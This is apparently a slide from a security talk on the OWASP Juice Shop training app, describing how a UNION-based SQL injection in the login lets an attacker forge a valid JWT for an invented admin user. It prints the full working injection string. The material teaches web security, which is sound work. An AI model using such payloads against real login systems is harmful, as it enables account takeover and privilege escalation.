

# Creating our own valid JWT Token
We are able to login to any account that we want to, even if it’s not a valid account to login as!
This is done via the SQL injection that we did at the beginning, we are able to artificially return some values from the ‘database’ so that the backend can create a valid JWT token for us.
This is done by using the UNION statement in SQL, it basically appends some information on to the end of the previous statement as long as the column numbers are the same.
' UNION SELECT * FROM (SELECT 200 as 'id', 'chad' as 'username', 'chadd@juice-sh.op' as 'email', 'chadd' as 'password', 'admin' as 'role', '' as 'deluxeToken' , '1.3.3.7' as 'lastLoginIp' , 'assets/public/images/uploads/default.svg' as 'profileImage', '' as 'totpSecret', 1 as 'isActive', '1999-08-16 14:14:41.644 +00:00' as 'createdAt', '1999-08-16 14:33:41.930 +00:00' as 'updatedAt', null as 'deletedAt')--